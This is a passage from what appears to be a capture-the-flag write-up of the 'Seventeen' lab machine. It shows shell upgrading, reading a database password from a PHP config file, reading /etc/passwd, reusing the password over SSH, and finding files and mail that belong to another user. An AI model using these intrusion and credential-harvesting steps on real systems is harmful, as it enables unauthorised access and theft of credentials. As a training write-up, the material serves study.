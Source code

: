 ```bash
http://mastermailer.seventeen.htb:8000/mastermailer
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%2024.png)

We now have shell.

```bash
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
Enter twice
```

Let’s enumerate and look for credentials:

```bash
www-data@da401b80fad1:/var/www/html/employeemanagementsystem$ cat process/dbh.php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

```

Let’s see if the password is reused.

Looking at /etc/passwd we find user mark:

```bash
mark:x:1000:1000:,,,:/var/www/html:/bin/bash
```

Let’s attempt to ssh:

```bash
ssh mark@10.10.11.165
```

We are in.

Simple enumeration revealed nothing, we are not sudoers or privileged groups. We did not find anything useful in our home dir. Looking at /home, we find user kavi. Let’s see what files this user owns:

```bash
find / -user kavi -ls 2>/dev/null

   663205      4 drwxr-x---   7 kavi     kavi         4096 May 11  2022 /home/kavi

   133787      4 -rw-r--r--   1 kavi     mail          740 Mar 14  2022 /var/mail/kavi

find / -group kavi 2>/dev/null
```

Let’s look at /var/mail/kavi

```bash
To: kavi@seventeen.htb
From: admin@seventeen.htb
Subject: New staff manager application

Hello Kavishka,

Sorry I couldn't reach you sooner. Good job with the design. I loved it. 

I think Mr. Johnson already told you about our new staff management system. Since our old one had some problems, they are hoping maybe we could migrate to a more modern one. For the first phase, he asked us just a simple web UI to store the details of the staff members.

```